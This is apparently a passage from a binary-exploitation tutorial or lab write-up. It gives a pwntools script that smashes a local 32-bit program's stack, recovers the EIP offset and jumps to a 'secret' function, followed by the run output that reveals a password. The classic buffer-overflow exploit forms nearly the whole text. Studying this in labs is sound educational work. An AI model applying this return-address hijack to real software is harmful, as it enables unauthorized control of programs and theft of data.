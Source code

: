 ```python title="prog3.py"
from pwn import *

# Start the program and send a cyclic pattern
p = process("./prog3")
p.sendline(cyclic(250))
p.wait()

# Find the offset of the EIP register after the crash
offset = cyclic_find(p.corefile.eip)

# Get the address of the secret function (program is 32-bit and not stripped)
secret_address = p32(ELF("./prog3").symbols['secret'])

print(f"Offset: {offset}")
print(f"Secret Address: {secret_address}")

# Send the payload to a new instance of the program
p = process("./prog3")
p.sendline(b"A"*offset + secret_address)

print(p.recvall().decode())
```

Running it, we get the same output as before:

```shell
$ python prog3.py 
[+] Starting local process './prog3': pid 324046

[*] Process './prog3' stopped with exit code -11 (SIGSEGV) (pid 324046)
[+] Parsing corefile...: Done
[*] '/tmp/core.324046'
    Arch:      i386-32-little
    EIP:       0x63636161
    ESP:       0xffb6159c
    Exe:       '/tmp/prog3' (0x8048000)
    Fault:     0x63636161

[*] '/tmp/prog3'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)

Offset: 205
Secret Address: b'\xf1\x92\x04\x08'

[+] Starting local process './prog3': pid 324069
[+] Receiving all data: Done (36B)
[*] Process './prog3' stopped with exit code 0 (pid 324069)

secret password is ZmQQsmRExtDVVHqf
```

